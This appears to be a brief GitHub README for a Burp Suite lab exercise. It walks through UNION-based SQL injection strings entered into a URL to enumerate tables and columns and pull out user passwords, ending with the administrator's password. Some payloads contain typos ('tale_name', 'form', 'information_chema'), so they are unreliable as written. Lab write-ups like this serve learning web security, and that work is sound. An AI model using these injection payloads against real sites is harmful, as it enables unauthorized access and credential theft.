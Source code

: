 # BurpSuite_Lab
first i try add "'+union+select+null--" into Url
as can we seen, there haven't happen. Then try add "+union+select+null,null--"
then i changed it in to "+union+select+tale_name,null+from+information_schema.tables--"
i saw user_****
then i tried to find column
i try "'+union+select+column_table,null+form+information_chema.columns--"
we could see user and password
the i tried "'+union+select+user_***, password_*** from user_***"
we can see password of acc administrator
